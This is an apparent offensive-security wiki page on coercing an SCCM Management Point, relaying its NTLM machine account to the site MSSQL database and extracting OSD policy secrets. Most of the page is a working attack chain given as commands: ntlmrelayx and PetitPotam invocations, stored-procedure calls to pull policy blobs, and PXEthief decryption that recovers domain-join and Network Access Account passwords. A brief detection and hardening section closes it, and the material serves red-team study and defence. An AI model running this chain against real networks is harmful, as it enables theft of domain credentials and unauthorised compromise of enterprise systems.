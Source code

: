 # SCCM Management Point NTLM Relay to SQL – OSD Policy Secret Extraction


## TL;DR
By coercing a **System Center Configuration Manager (SCCM) Management Point (MP)** to authenticate over SMB/RPC and **relaying** that NTLM machine account to the **site database (MSSQL)** you obtain `smsdbrole_MP` / `smsdbrole_MPUserSvc` rights.  These roles let you call a set of stored procedures that expose **Operating System Deployment (OSD)** policy blobs (Network Access Account credentials, Task-Sequence variables, etc.).  The blobs are hex-encoded/encrypted but can be decoded and decrypted with **PXEthief**, yielding plaintext secrets.

High-level chain:
1. Discover MP & site DB ↦ unauthenticated HTTP endpoint `/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA`.
2. Start `ntlmrelayx.py -t mssql://<SiteDB> -ts -socks`.
3. Coerce MP using **PetitPotam**, PrinterBug, DFSCoerce, etc.
4. Through the SOCKS proxy connect with `mssqlclient.py -windows-auth` as the relayed **<DOMAIN>\\<MP-host>$** account.
5. Execute:
   * `use CM_<SiteCode>`
   * `exec MP_GetMachinePolicyAssignments N'<UnknownComputerGUID>',N''`
   * `exec MP_GetPolicyBody N'<PolicyID>',N'<Version>'`   (or `MP_GetPolicyBodyAfterAuthorization`)
6. Strip `0xFFFE` BOM, `xxd -r -p` → XML  → `python3 pxethief.py 7 <hex>`.

Secrets such as `OSDJoinAccount/OSDJoinPassword`, `NetworkAccessUsername/Password`, etc. are recovered without touching PXE or clients.

---

## 1. Enumerating unauthenticated MP endpoints
The MP ISAPI extension **GetAuth.dll** exposes several parameters that don’t require authentication (unless the site is PKI-only):

| Parameter | Purpose |
|-----------|---------|
| `MPKEYINFORMATIONMEDIA` | Returns site signing cert public key + GUIDs of *x86* / *x64* **All Unknown Computers** devices. |
| `MPLIST` | Lists every Management-Point in the site. |
| `SITESIGNCERT` | Returns Primary-Site signing certificate (identify the site server without LDAP). |

Grab the GUIDs that will act as the **clientID** for later DB queries:
```bash
curl http://MP01.contoso.local/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA | xmllint --format -
```
```
---

## 2. Relay the MP machine account to MSSQL
```bash
# 1. Start the relay listener (SMB→TDS)                              
ntlmrelayx.py -ts -t mssql://10.10.10.15 -socks -smb2support

# 2. Trigger authentication from the MP (PetitPotam example)
python3 PetitPotam.py 10.10.10.20 10.10.10.99 \
       -u alice -p P@ssw0rd! -d CONTOSO -dc-ip 10.10.10.10
```
```When the coercion fires you should see something like:
```
[*] Authenticating against mssql://10.10.10.15 as CONTOSO/MP01$ SUCCEED
[*] SOCKS: Adding CONTOSO/MP01$@10.10.10.15(1433)
```
```
---

## 3. Identify OSD policies via stored procedures
Connect through the SOCKS proxy (port 1080 by default):
```bash
proxychains mssqlclient.py CONTOSO/MP01$@10.10.10.15 -windows-auth
```
```Switch to the **CM_<SiteCode>** DB (use the 3-digit site code, e.g. `CM_001`).

### 3.1  Find Unknown-Computer GUIDs (optional)
```sql
USE CM_001;
SELECT SMS_Unique_Identifier0
FROM dbo.UnknownSystem_DISC
WHERE DiscArchKey = 2; -- 2 = x64, 0 = x86
```
```
### 3.2  List assigned policies
```sql
EXEC MP_GetMachinePolicyAssignments N'e9cd8c06-cc50-4b05-a4b2-9c9b5a51bbe7', N'';
```
```Each row contains `PolicyAssignmentID`,`Body` (hex), `PolicyID`, `PolicyVersion`.

Focus on policies:
* **NAAConfig**  – Network Access Account creds
* **TS_Sequence** – Task Sequence variables (OSDJoinAccount/Password)
* **CollectionSettings** – Can contain run-as accounts

### 3.3  Retrieve full body
If you already have `PolicyID` & `PolicyVersion` you can skip the clientID requirement using:
```sql
EXEC MP_GetPolicyBody N'{083afd7a-b0be-4756-a4ce-c31825050325}', N'2.00';
```
```> IMPORTANT: In SSMS increase “Maximum Characters Retrieved” (>65535) or the blob will be truncated.

---

## 4. Decode & decrypt the blob
```bash
# Remove the UTF-16 BOM, convert from hex → XML
echo 'fffe3c003f0078…' | xxd -r -p > policy.xml

# Decrypt with PXEthief (7 = decrypt attribute value)
python3 pxethief.py 7 $(xmlstarlet sel -t -v "//value/text()" policy.xml)
```
```Recovered secrets example:
```
OSDJoinAccount : CONTOSO\\joiner
OSDJoinPassword: SuperSecret2025!
NetworkAccessUsername: CONTOSO\\SCCM_NAA
NetworkAccessPassword: P4ssw0rd123
```
```
---

## 5. Relevant SQL roles & procedures
Upon relay the login is mapped to:
* `smsdbrole_MP`
* `smsdbrole_MPUserSvc`

These roles expose dozens of EXEC permissions, the key ones used in this attack are:

| Stored Procedure | Purpose |
|------------------|---------|
| `MP_GetMachinePolicyAssignments` | List policies applied to a `clientID`. |
| `MP_GetPolicyBody` / `MP_GetPolicyBodyAfterAuthorization` | Return complete policy body. |
| `MP_GetListOfMPsInSiteOSD` | Returned by `MPKEYINFORMATIONMEDIA` path. |

You can inspect the full list with:
```sql
SELECT pr.name
FROM   sys.database_principals AS dp
JOIN   sys.database_permissions AS pe ON pe.grantee_principal_id = dp.principal_id
JOIN   sys.objects AS pr ON pr.object_id = pe.major_id
WHERE  dp.name IN ('smsdbrole_MP','smsdbrole_MPUserSvc')
  AND  pe.permission_name='EXECUTE';
```
```
---

## 6. Detection & Hardening
1. **Monitor MP logins** – any MP computer account logging in from an IP that isn’t its host ≈ relay.
2. Enable **Extended Protection for Authentication (EPA)** on the site database (`PREVENT-14`).
3. Disable unused NTLM, enforce SMB signing, restrict RPC (
   same mitigations used against `PetitPotam`/`PrinterBug`).
4. Harden MP ↔ DB communication with IPSec / mutual-TLS.

---

## See also
* NTLM relay fundamentals:
  
[[../ntlm/README.md]]

* MSSQL abuse & post-exploitation:
  
[[abusing-ad-mssql.md]]


## References
- [[https://specterops.io/blog/2025/07/15/id-like-to-speak-to-your-manager-stealing-secrets-with-management-point-relays/|I’d Like to Speak to Your Manager: Stealing Secrets with Management Point Relays]]
- [[https://github.com/MWR-CyberSec/PXEThief|PXEthief]]
- [[https://github.com/subat0mik/Misconfiguration-Manager|Misconfiguration Manager – ELEVATE-4 & ELEVATE-5]]

